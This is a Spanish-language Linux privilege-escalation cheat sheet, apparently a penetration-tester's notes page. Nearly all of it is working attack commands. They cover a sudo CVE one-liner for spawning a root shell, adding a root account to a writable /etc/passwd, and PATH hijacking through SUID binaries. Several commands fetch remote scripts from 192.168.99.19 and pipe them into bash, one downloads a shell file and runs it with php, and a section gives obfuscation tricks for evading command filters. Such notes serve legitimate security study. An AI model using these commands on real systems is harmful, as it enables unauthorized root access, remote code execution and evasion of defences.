 # Linux

	* [Tools]
	* [Version Kernel]
	* [Permisos de usuario]
	* [PATH]
	* [Permisos de archivos]
	* [Procesos]
	* [Monitoreo de red]
	* [Descargando archivos]
	* [Bypassing]

## Tools

	* [Linpeas]()
	* [Linenum]()
	* [linux-exploit-suggester]()

## Version Kernel

### Enumeracion

```bash
uname -a
```

## Permisos de usuario

### Enumeracion

```bash
sudo -l
```

```bash
cat /etc/sudoers
```

### Explotacion de binarios con permisos para sudo

	* [GTFOBins]()

### AGREGAR CVE	

Si: ALL=(ALL:!root) NOPASSWD:ALL
```bash
sudo -u#-1 /bin/sh 
```

## PATH

### Enumeracion

```bash
echo $PATH
```

### Path: .:/bin/:

Primero busca dentro de la carpeta donde estamos parados.
1. Si podemos, encontrar un binario A con SUID que llame a otro binario B con la ruta relativa
2. Ir a una carpeta donde tengamos permiso de escritura
3. Crear un binario C malicioso con el mismo nombre que binario B
4. Ejecutar binario A

## Permisos de archivos

### Enumeracion

```bash
#Para encontrar archivos con SUID activado
find / -type f -perm -u=s 2>/dev/null

#Encontrar directorios con permisos de escritura
find / -perm 777 2>/dev/null

#SGID activado
find / -perm -g=s -type f 2>/dev/null

#Find Sticky bit
find / -perm -1000 -type d 2>/dev/null
```

### Explotacion de binarios con permisos para SUID/GUID

	* [GTFOBins]()

### passwd con permisos de escritura

```bash
#Crea password para agregar en el archivo /etc/passwd si tiene permisos de escritura
python3 -c 'import crypt; print(crypt.crypt("password", "$6$"))'

#otra opcion
openssl passwd -1


#la linea donde * es donde va la pass
hercules:*:0:0:root:/root:/bin/bash
```

## Procesos

### Enumeracion

```bash
ps aux
```

```bash
pspy32 #buscar tareas que se repitan en el tiempo
```

```bash
crontab -l
```

### Crontab

```
(1)(2)(3)(4)(5) <username> <command to be executed>
(1) Minute (0 - 59)
(2) Hour (0 - 23)
(3) Day (1 - 31)
(4) Month (1 - 12)
(5) Weekday (0 - 7) (Sunday is 0 or 7, Monday is 1...)
```

## Monitoreo de red

### Netstat

```bash
netstat -antp
```

### ss

```bash
ss -antp
```

## Descargando archivos


### Server host

```bash
#En host
python -m http.server 80 #py3

python -m SimpleHTTPServer 80 #py2
```

### Cliente

#### wget

```bash
wget www.url.com/file .
```

#### Ejecutar sin descargar - Curl

```bash
curl -fsSL http://192.168.99.19:8080/test.sh | bash
```

```bash
bash < <( curl http://192.168.99.19:8080/test.sh  )
```

#### Ejecutar sin descargar - get

```bash
wget -q -O- http://192.168.99.19:8080/test.sh | bash
```

```bash
wget http://192.168.99.19:8080/shell.txt -O /tmp/x.php && php /tmp/x.php
```

## Bypassing

### Restricciones de espacios

```bash
cat$IFS/etc/passwd
```

### Usando argumento

```bash
echo $0 # es igual a /bin/bash
```

```bash
echo whoami | $0
```

### Wildcards

```bash
/usr/bin/wh?ami
/usr/bin/wh*ami
```

### Concatenaciones

```bash
'w'h'o'a'm'i
\w\h\o\a\m\i
```

### Variables sin inicializar

```bash
w${u}h${u}o${u}a${u}m${u}i
$u/usr$u/bin$u/whoami
```

### Comandos falsos

```bash
w$(u)h$(u)o$(u)a$(u)m$(u)i
w`u`h`u`o`u`a`u`m`u`i
```

### Usando History

```bash
$!-1 #Reference to last command executed. 
$!-2 #Reference to the penultimate command executed


$mi #Throw an error
$whoa #Throw an error
$!-1!-2 #Equals to whoami
```

### Nueva linea

```bash
$w\
h\
o\
a\
m\
i\
```